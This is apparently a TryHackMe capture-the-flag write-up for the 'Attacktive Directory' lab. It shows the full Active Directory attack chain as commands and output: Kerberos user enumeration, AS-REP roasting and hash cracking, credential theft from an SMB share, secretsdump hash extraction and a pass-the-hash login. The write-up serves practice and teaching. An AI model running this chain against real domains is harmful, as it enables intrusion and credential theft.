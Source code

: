 # Attacktive Directory - TryHackMe

## Informations

* **Machine:** AttacktiveDirectory
* **IP Adress:** 10.10.200.192

---

## nmap

**Bash**
```
nmap -sS -p- -Pn -T4 <IP>
```

**Output:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-01 10:03 EDT
Nmap scan report for 10.10.202.192
Host is up (0.062s latency).
Not shown: 65508 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49676/tcp open  unknown
49679/tcp open  unknown
49683/tcp open  unknown
49701/tcp open  unknown
49830/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 265.32 seconds

```

## enum4linux

**Bash**
```
enum4linux -a <IP>
```

**Output:**

Domain Name: **THM-AD**

## kerbrute

**Bash**
```
./kerbrute userenum -d THM-AD users.txt --dc 10.10.200.192
```

**Found:**

```
2025/08/01 10:11:26 >  [+] VALID USERNAME:       james@THM-AD
2025/08/01 10:11:27 >  [+] VALID USERNAME:       svc-admin@THM-AD           //(HERE)
2025/08/01 10:11:28 >  [+] VALID USERNAME:       James@THM-AD
2025/08/01 10:11:29 >  [+] VALID USERNAME:       robin@THM-AD
2025/08/01 10:11:35 >  [+] VALID USERNAME:       darkstar@THM-AD
2025/08/01 10:11:41 >  [+] VALID USERNAME:       administrator@THM-AD
2025/08/01 10:11:51 >  [+] VALID USERNAME:       backup@THM-AD              //(HERE)
2025/08/01 10:11:56 >  [+] VALID USERNAME:       paradox@THM-AD
```

## AS-REP Roasting

**Bash**
```
python3 GetNPUsers THM-AD/svc-admin -no-pass -dc-ip 10.10.200.192
```

**Found:**

* **svc-admin@THM-AD: <NTLM_Hash>**

## Decoding Hash

**Bash**
```
john --format=krb5asrep ntlmhash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

**Output:**

"<password>    ($krb5asrep$23$svc-admin@THM-AD)"

## Access to SMBClient

**Bash**
```
smbclient -L \\10.10.200.192 -U svc-admin
Enter the Pass: <password>
```

**Output**
```
Sharename      Type      Content
---------      ----      -------
ADMIN$
backup
C$
...
```

## Learn to Content of backup File

**Bash**
```
smbclient //10.10.200.192/backup -U svc-admin
Enter the Pass: <password>

ls
```

**Output**

```
backup_credentials.txt      A      48
```

**Bash**
```
get backup_credentials.txt
CTRL+C
cat backup_credentials.txt
```

**Output**

* **<base64_hash>**

## Decoding Hash

**Bash**
```
base64 -d backup_credentials.txt
```

**Output:**
                  
`backup@spookysec.local:<password>`

## Accessable User's Hashes

```
python3 /opt/impacket/examples/secretsdump.py spookysec.local/backup:<password>@10.10.202.192
```

**Output:**

```
Administrator:500:<LM_Hash>:<NTLM_Hash>
```

## Pass The Hash Attack

```
python3 wmiexec.py 'spookysec.local/Administrator@10.10.202.192' -hashes :<Administrator_NTLM_Hash>
```

**Now you can capture the flags.**

use : "dir", "cd" and "cat" commands.









